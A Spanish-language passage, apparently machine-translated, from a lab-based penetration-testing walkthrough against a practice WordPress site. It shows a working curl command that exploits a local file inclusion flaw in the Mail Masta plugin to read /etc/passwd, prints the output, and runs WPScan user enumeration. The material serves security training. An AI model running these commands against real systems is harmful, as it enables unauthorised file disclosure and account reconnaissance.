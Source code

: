 Desde el escaneo, podemos deducir los siguientes bits de información:

- La versión central de WordPress es la última (6.0 al momento de la escritura)
- El tema en uso es`cbusiness-investment`
- El`b2i-investor-tools`Se instala el complemento
- El`mail-masta`Se instala el complemento

El`Mail Masta`El complemento es un complemento anterior con varias vulnerabilidades conocidas. Podemos usar[este](https://www.exploit-db.com/exploits/50226)Explotar para leer archivos en el sistema de archivos subyacente aprovechando una vulnerabilidad de inclusión de archivos locales (LFI).

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Podemos agregar otro hallazgo a nuestra lista:`Local File Inclusion (LFI)`. A continuación, sigamos adelante y veamos si podemos enumerar a los usuarios de WordPress usando`WPScan`.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ wpscan -e u -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```